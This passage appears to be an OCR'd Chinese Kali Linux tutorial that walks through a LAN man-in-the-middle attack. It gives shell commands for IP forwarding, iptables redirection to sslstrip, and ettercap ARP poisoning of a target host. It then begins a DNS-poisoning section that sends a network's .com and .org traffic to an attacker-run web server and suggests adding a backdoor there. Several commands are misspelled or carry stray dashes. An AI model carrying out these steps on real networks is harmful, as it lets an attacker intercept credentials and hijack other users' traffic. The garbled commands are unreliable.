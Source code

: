 ```shell
root@kali:~# ifcofing       #命令查看当前网关
root@kali:~# netdiscover    #获取到当前目标IP
```

2.开启内核转发功能保证攻击过程中被攻击者不断网.

```shell
root@kali:~# echo "1" > /proc/sys/net/ipv4/ip_forward
```

3.使用iptables把80端口的流量转发到sslstrip监听的10000端口上.

```shell
root@kali:~# iptalbes -t nat -F
root@kali:~# iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-ports 10000
root@kali:~# iptables -t nat -A PREROUTING -p tcp -–destination-port 80 -j REDIRECT –to-ports 10000
root@kali:~# iptables -t nat -L
```

4.启用`sslstrip`并启动ettercap对目标主机进行arp攻击.

```shell
root@kali:~# sslstrip -l 10000
root@kali:~# ettercap -i eth0 -T -M arp:remote /192.168.1.2// /192.168.1.1//
```

此时当用户浏览的网页中包含https协议,会被转化为http协议的请求.但是sslstrip也不是万能的,假如网页中没有https,但是js代码绑定了跳转到https的协议请求的事件,那么sslstrip就失效了.如果用户打开网页的时候请求就是https,会导致证书认证失败,网页一直打不开.



## DNS局域网投毒

该配置主要用于实现控制局域网中网络的访问,例如可以指定将所有访问`baidu.com`的请求转到访问`192.168.1.9`这台主机上,我们可以在这台主机上配合后门,这样的话所有内网主机都会默认访问我们的网址,从而实现局域网中网站页面的重定向.

1.安装并启动apache服务程序,后期我们要将页面跳转到kali的http服务上.

```shell
root@kali:~# echo "hello lyshark" > /var/www/html/index.html
root@kali:~# systemctl restart apache2
```

2.通过使用`netdiscover命令`获取到主机信息,这里主要来确定一下`192.168.1.1是网关`,而`192.168.1.2`为被攻击主机.

```shell
root@kali:~# netdiscover

Currently scanning: 192.168.1.0/24   |   Screen View: Unique Hosts
 3 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 180               
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.1.1     11:72:se:c7:se:af      1      60  TP-LINK TECHNOLOGIES
 192.168.1.2     ac:3s:ca:xf:g1:w8      1      60  Dell Inc.
 192.168.1.9     f2:1e:28:4e:4c:s4      1      60  kali linux.
```

3.配置跳转地址,将所有访问`.com,.org`的网页请求,全部跳转到本机的apache上.
